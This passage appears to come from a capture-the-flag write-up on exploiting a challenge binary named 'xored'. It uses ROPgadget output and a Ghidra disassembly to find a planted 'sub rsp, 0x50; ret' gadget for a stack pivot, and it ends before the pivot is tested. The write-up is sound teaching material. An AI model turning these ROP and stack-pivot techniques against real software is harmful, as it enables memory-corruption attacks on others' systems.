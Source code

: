 Another option is to look for something that manupulates `rsp` to give us additional ROP jumps. I use pwntools' `ROPgadget` to check for gadgets

```sh
$ ROPgadget --binary xored | grep rsp
0x0000000000401263 : adc byte ptr [rbp - 0x3d], bl ; sub rsp, 0x50 ; ret
0x0000000000401229 : add rsp, 0x10 ; pop rbp ; ret
0x0000000000401492 : add rsp, 0xd0 ; pop rbp ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x000000000040151b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004014fd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040151d : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000401266 : sub rsp, 0x50 ; ret
0x000000000040151c : sub rsp, 8 ; add rsp, 8 ; ret
```

`0x0000000000401266 : sub rsp, 0x50 ; ret` looks promising. this will subtract 0x50 from `rsp` and actually place the stack pointer inside our buffer, meaning that we can construct our ROP chain there. (the next return pointer is always popped off `rsp`) The buffer position will probably be 160-0x50 because that's the numbers we know. let's just make python figure out the actual position, I don't do math in multiple bases.

Ackhtually, let's look at the gadget in ghidra for fun and learning.

```
                             LAB_00401260                                    XREF[1]:     0040123f(j)  
        00401260 48 83 c4 10     ADD        RSP,0x10
        00401264 5d              POP        RBP
        00401265 c3              RET
        00401266 48              ??         48h    H
        00401267 83              ??         83h
        00401268 ec              ??         ECh
        00401269 50              ??         50h    P
        0040126a c3              ??         C3h
        0040126b 00              ??         00h
        0040126c 00              ??         00h
        0040126d 00              ??         00h
        0040126e 00              ??         00h
        0040126f 00              ??         00h
``` 

at 0x00401266 It's not even disassembled as part of a function. Surely someone hasn't put it there for us to find?
Disassembling it manually in Ghidra shows indeed the same as the ROPgadget utility. You will probably not find this gadget this readily in every case! ;-)

```
        00401266 48 83 ec 50     SUB        RSP,0x50
        0040126a c3              RET
```

### Testing the pivot gadget. What could possibly go wrong?
